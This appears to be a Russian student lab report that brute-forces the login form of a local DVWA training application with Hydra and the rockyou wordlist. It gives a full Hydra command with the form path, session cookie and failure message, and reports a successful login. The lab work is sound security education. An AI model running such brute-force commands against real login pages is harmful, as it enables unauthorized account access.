 # **Отчет к 3 этапу индивидуального проекта**
## **Common information**
discipline: Основы информационной безопасности  
group: НПМбд-02-21  
author: Ермолаев А.М.
---
---
## **Цель работы**

Приобретение практических навыков по использованию инструмента Hydra для брутфорса (подбора) паролей.

## **Выполнение работы**

Для перебора пароля нам нужен файл, их содержащий. Пример такого файла находится в директории /usr/share/wordlists/ в архиве rockyou.txt.gz.

Скопируем архив в директорию Downloads и разархивируем его:

![Файл с паролями](images/s1_rockyou.png)

Теперь откроем в браузере приложение DVWA, развернутое на прошлом этапе, не забыв предварительно запустить сервисы MySQL и Apache2:

![Запуск сервисов](images/s0_start_services.png)

Форма для взлома располагается в разделе Brute Force:

![Форма для брут-форса](images/s2_form.png)

В форме имеются два тега input с атрибутами name, равными 'username' и 'password' соответственно.

Также нам могут пригодиться фрагменты-cookie нашего приложения. У нас это PHPSESSID и security:

![Cookie-переменные](images/s3_cookies.png)

Воспользуемся утилитой hydra, введя следующую команду:

```
hydra -l <login> -P <path_to_file> -s <port> <host> http-<method>-form "<url>:username=^USER^&password=^PASS^&Login=Login:H=Cookie:<key=value>;<key=value>:F=<error_message>"
```

где
* login - логин для авторизации (в нашем случае admin)
* path_to_file - путь до файла с паролями 

    (в нашем случае /home/amermolaev/Downloads/rockyou.txt)
* port - порт, по которому доступно приложение (в нашем случае 80)
* host - домен или ip приложения (в нашем случае localhost)
* method - метод запроса (в нашем случае get)
* url - адрес относительно корня сайта 

    (в нашем случае /DVWA/vulnerabilities/brute/)
* key=value - имена и значения cookie-переменных 

    (в нашем случае PHPSESSID и security)
* error_message - сообщение, выводимое при неверных логине и пароле

    (в нашем случае Username and/or password incorrect.)

В итоге команда имеет следующие опции:

```
hydra -l admin -P ~/Downloads/rockyou.txt -s 80 localhost http-get-form "/DVWA/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:H=Cookie:security=medium;PHPSESSID=h5f8987rvm2ior52h8kqktaf8g:F=Username and/or password incorrect."
```

![Утилилита hydra](images/s4_hydra.png)

Как видно, утилита подобрала пожходящий пароль.

Введем его в соответствующее поле и успешно авторизуемcя:

![Успешная авторизация](images/s5_success.png)


## **Вывод**

В рамках выполнения работы я рпиобрел практический навык по использованию инструмента Hydra для брутфорса (подбора) паролей.

## **Список литературы** ##
* https://github.com/digininja/DVWA?tab=readme-ov-file
* https://www.kali.org/
* https://spy-soft.net/rockyou-txt/
* https://losst.pro/kak-polzovatsya-hydra#perebor-parolya-autentifikcii-http
